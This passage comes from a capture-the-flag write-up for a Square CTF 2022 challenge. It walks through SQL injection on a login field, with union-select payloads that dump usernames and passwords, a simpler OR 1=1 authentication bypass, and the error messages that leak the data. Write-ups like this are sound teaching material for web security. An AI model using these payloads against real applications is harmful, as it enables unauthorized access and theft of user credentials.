 This returned the following.

```
Sorry, password,username is the wrong user
```

Given that we had a column for "username" and a column for "password" we can output the contents from this field.

```sql
' union select group_concat(username,':',password) from user -- -
```

This resulted in the following.

```
Sorry, admin:password is the wrong user
```

At this point, I was able to understand the database layout yet I still could only get the first entry from the "user" table. I started off by simplifying the above queries and then excluded the username of "admin". For the following query, after inputting it into the username field, this yielded the flag.

```sql
' union select username from user where username!='admin' -- -
```

which resulted in getting the flag!

<img src="{{ "assets/writeups/square-ctf-2022/alex-hanlon-chall-4.png" | relative_url }}" alt="Got the flag for Alex Hanlon!" width="70%"/>

While this method was certainly long, it provided an extensive process to get the overall database layout which became helpful for the second problem below. An additional note is that the following payload is much simpler but also works as an acceptable solution as well, however, the above methodology was incredibly helpful for the second challenge.

```sql
' OR 1=1 AND username!='admin' -- -
```

Some additional investigation post-CTF found the following information.

```sql
' union select group_concat(username) from user -- -
```

Which output the following error.

```
Sorry, admin,ahanlon is the wrong user
```

This revealed that the username for Alex Hanlon is "ahanlon". However, when a similar payload for passwords was attempted, this resulted in the following error.

```sql
' union select group_concat(password) from user -- -
```

```
Sorry, password is the wrong user
```
